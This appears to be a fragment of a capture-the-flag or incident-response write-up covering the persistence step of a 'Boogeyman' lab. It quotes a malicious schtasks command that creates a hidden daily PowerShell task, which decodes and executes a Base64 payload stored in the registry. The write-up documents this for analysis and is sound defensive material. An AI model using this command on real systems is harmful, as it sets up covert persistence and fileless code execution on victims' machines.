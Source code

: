 <img src="screenshots/boogeyman14.png" width="600">

3. Persistence & scheduled task
Search process memory and command-line artifacts, find scheduled task creation:
- Scheduled task created: Review
- Full command used for persistence (schtasks):
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:Software\Microsoft\Windows\CurrentVersion\debug).debug)))"'
This is a classic pattern: a scheduled task invoking a Base64-encoded command from the registry.
<img src="screenshots/boogeyman15.png" width="600">
